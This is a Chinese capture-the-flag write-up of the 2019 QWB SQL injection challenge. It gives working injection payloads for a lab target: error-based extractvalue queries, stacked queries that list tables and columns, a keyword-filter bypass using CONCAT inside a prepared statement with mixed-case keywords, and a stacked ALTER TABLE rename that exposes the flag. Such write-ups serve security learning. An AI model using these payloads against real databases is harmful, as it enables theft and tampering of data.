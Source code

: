 # 强网杯2019-随便注题目分析

在BUUCTF上web板块第二题发现的该题目，本人对sql注入漏洞比较关注，所以仔细分析一下本题目

首先访问是这样的

![image-20200831103353461](pictures/image-20200831103353461.png)

提交"1"的时候是这样的

<img src="pictures/image-20200831103448521.png" alt="image-20200831103448521" style="zoom: 50%;" /> 

加入一个单引号(为了方便观察，burpsuit上测试)，报错

<img src="pictures/image-20200831103754316.png" alt="image-20200831103754316" style="zoom:50%;" />

加两个单引号，正常。由此判断存在注入。

![image-20200831103834894](pictures/image-20200831103834894.png)

再看报错的内容，报错提示MariaDB数据库，MariaDB数据库管理系统是MySQL的一个分支，主要由开源社区在维护，因此MariaDB的注入，我们当成是MySQL的注入就OK。

既然有报错，我们首先想到的是MySQL报错注入。

### 报错注入测试

不管三七二十一先用floor()打一波,结果显示过滤掉了select。

```
' and (select count(*) from information_schema.tables group by concat(0x7e,(select version()),0x7e,floor(rand(0)*2)))--+
```

![image-20200831130159070](pictures/image-20200831130159070.png)

既然不让用，就不用杯，xpath报错安排上。如下图，成功注入出了版本信息。

```
1'+and+extractvalue(1,concat(0x7e,(@@version),0x7e))
```

![image-20200831130712929](pictures/image-20200831130712929.png)

当前数据库也出来了

![image-20200831130836801](pictures/image-20200831130836801.png)

用户是user

![image-20200831131003365](pictures/image-20200831131003365.png)

不能用select就很烦呀。还是得注入出其他数据才能获取flag，绕过开始了，

### 绕过测试

我们在select前后加上正常的字符，发现还是被拦截了，显然这是正则硬匹配字符串。所以注释加换行的思路可以宣告不可用。

![image-20200831132845922](pictures/image-20200831132845922.png)

想改为POST数据包，用分块和编码绕过也是不行，不支持用POST传输数据。这条路也不通了。

再能想到的方法就是利用正则回溯法，用超常字符串绕过。但是在openresty下是行不通的，有最大长度限制。

![image-20200831134505731](pictures/image-20200831134505731.png)



放弃了绕过的方式。

翻阅了一下，看writeup说堆叠查询。于是开始了堆叠查询之路

### 堆叠查询

堆叠查询就是在“；”之后插入任意的SQL语句。

**首先要知道堆叠查询支持的场景**

SQL Server 支持

MySQL 5 及之后支持

PostgreSQL支持

<u>Oracle不支持堆叠查询。</u>



通过上面的查询知道这里MariaDB是10.3.18，猜想应该是基于MySQL5之后。试了再说。

```
1';show tables;-- 
```

查询所有的表，共发现两个，1919810931114514和words。

![image-20200831140213561](pictures/image-20200831140213561.png)

分别查看两个表的列。

注：*在mysql中，对表名为纯数字的表进行操作时，要在表名前后加上反引号*

```
1';show columns from `1919810931114514`;-- 
1';show columns from words;-- 
这里也可以用desc。
1';desc words;--
```

![image-20200831140731774](pictures/image-20200831140731774.png)

![image-20200831141230792](pictures/image-20200831141230792.png)

由此可知，flag在“1919810931114514”表中。到这我们预编译就可以查出flag了

```
set @sql = CONCAT('se','lect * from `1919810931114514`;');//通过concat拼接绕过select检测
prepare flag from @sql;
EXECUTE flag;
```

但是远远没有这个简单，出现了strstr()报错，不应该出现prepare。

![image-20200831142614753](pictures/image-20200831142614753.png)

于是网上搜索strstr()绕过，首先就出现了大小写绕过。果断把prepare改成Prepare。嘻嘻，成功拿到flag

![image-20200831142846216](pictures/image-20200831142846216.png)

除此之外，网上的大多数writeup是通过修改表名来获取flag的，这里也复现一下

通过1' or '1'='1来获取所有当前表的内容并没有flag字段，又由于总共只有两个表。由此可知，当前表是words，如果不用select来查询其他表的内容呢？通过修改表名的方式来实现。将当前表改为其他表名，将“1919810931114514”改为“words"那么查询当前表实际上就是查询的“1919810931114514”表的内容。

![image-20200831143724159](pictures/image-20200831143724159.png)

```
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);//将字段名flage改为原先的id。

总的语句
1';alter+table+words+rename+to+words1;alter+table+`1919810931114514`+rename+to+words;alter+table+words+change+flag+id+varchar(50);
```

![image-20200831144928148](pictures/image-20200831144928148.png)

用' or '1'='1获取所有结果获取到了flag。

![image-20200831144957549](pictures/image-20200831144957549.png)

审查一下源码：https://github.com/glzjin/qwb_2019_supersqli/blob/master/files/html/index.php

使用了multi_query()来执行多条sql语句。![image-20200831152351395](pictures/image-20200831152351395.png)



知识点总结：

1. 在mysql中，对表名为纯数字的表进行操作时，要在表名前后加上反引号
2. mysql查询列名show columns from words
3. desc查询表结构desc words
4. 通过预编译绕过关键词。
5. strstr()可以用大小写绕过。
6. multi_query()可以执行多条sql语句，造成堆叠查询，审查源码的时候得注意。